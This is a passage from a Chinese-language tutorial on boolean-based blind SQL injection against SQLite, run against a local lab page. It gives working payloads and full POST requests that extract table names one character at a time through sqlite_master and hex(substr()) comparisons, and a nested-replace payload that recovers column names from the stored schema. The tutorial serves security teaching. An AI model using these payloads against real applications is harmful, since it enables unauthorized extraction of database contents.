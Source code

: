 and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1) = table_name_length_number
其余的payload则保持一致。接着，我们将通过如下payload猜解表名，在该payload中，我们将使用hex值来与表名中的字符进行对照。

and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
该payload提取表名然后提取其中字符，将其转换为hex表示，再跟我们猜测的值进行对比。hex(substr(name,1,1))函数从指定位置提取表名中的一个字符。在上述代码中，substr函数从位置1提取一个字符，再将其转换为hex形式。如果是hex(substr(name,3,1))则表示从第3位开始，截取一个字符。在payload最后，hex('some_char')是我们需要猜测的指定表名字符，hex函数将会将其转换为hex值，这将会让我们的注入更加快速一些。

一旦我们得到表名的第一个字符后，我们将继续猜解第二个字符，为了猜解下一个字符，我们需要改变sbustr函数中代表字符所在位置的数字。即hex(substr(name,1,1))中将1,1改为2，1，接着，我们再进行相同的步骤直到猜解完毕。

让我们来看看具体情况，首先我们将猜解表名第一个字母是否大于'a'：

http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('a')-- -&search=Check+Plan
http://p5.qhimg.com/t01a6d142f044c83e20.png
页面响应与未被注入时一致，这意味着表名的第一个字符大于'a'，在第二次测试中，我们尝试字符k，即测试表名第一个字符是否大于字母'k'，因此，请求长这样：

http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('k')-- -&search=Check+Plan
现在，页面响应与之前普通页面不一致了，即说明表名第一个字符不大于字母k。因此，通过上面两个请求，我们得出表名第一个字符在'a'和'k'之间。在多次尝试后，我们就可以将范围缩到两个前后为同一个字符，这时我们使用=来判断：

http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('i')-- -&search=Check+Plan
以上就是通过fuzz猜解表名的过程，为了继续猜解下一个字符，只需要将hex(substr(name,1,1))中的1，1改为2，1即可，其余不变，然后就继续猜解直到完全猜解出来为止吧。

猜解列名

为了猜解列名，我们将会使用如下payload来获取列名列表：

replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`","")
http://p2.qhimg.com/t01fdb1c659b5950a1f.png
以上，在“中的即为列名，上面提到的payload将会提取出所有列名，为了提取相应字符数据需要将其转换为hex再进行比较，以下payload将会有所帮助：

hex(substr(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`",""),column-name_character_numer,1))
你只需要将上面payload中的column-name_character_numer替换为相应的数字即可，比如想要猜解列名列表中的第一个字符，你只需将其替换为1.本例中的SQL盲注payload如下：

and (select hex(substr(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`",""),1,1)) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='info') < hex('Character_we_are_guessing')
将Character_we_are_guessing替换为想要猜解的字符即可，就像下面示例，hex('q')表示我们想要确认第一个字符是否在'q'之前。
